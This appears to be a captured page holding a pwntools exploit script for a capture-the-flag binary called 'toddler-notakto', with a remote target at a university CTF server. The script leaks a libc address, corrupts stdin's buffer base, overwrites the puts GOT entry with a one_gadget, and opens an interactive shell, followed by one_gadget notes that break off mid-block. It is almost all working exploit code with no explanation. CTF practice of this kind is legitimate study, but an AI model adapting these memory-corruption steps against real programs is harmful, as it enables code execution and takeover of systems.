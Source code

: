 exp:
```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
	cn = process('./toddler-notakto')
	bin = ELF('./toddler-notakto')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	cn = remote("bamboofox.cs.nctu.edu.tw", 58797)
	bin = ELF('./toddler-notakto')
	libc = ELF('./libc-2.23.so-14c22be9aa11316f89909e4237314e009da38883')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def write_zero(addr):
	cn.recvuntil('Your move: ')
	cn.sendline(str(addr-board))


cn.recvuntil('name: ')
cn.send('a'*0x28)
cn.recvuntil('a'*0x28)
libc.address = u64(cn.recv(6)+'\x00\x00')-libc.sym['__libc_start_main']-240
success('libc_base: '+hex(libc.address))

board=0x0000000000602080
stdin__IO_buf_base = libc.sym["_IO_2_1_stdin_"] + 0x38
if local:
	onegadget = libc.address+0x45216
else:
	pass

write_zero(stdin__IO_buf_base)


cn.recvuntil('move: ')
pay = p64(0)*3 + p64(bin.got['puts']) + p64(bin.got['puts'] + 0x78) + p64(0)
cn.sendline(pay)
sleep(0.5)
cn.recv()

z('b*0x0000000000400DC1\nc')
pay = '\x00'*0x20 +p64(onegadget)
cn.sendline(pay)
cn.interactive()



'''
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
```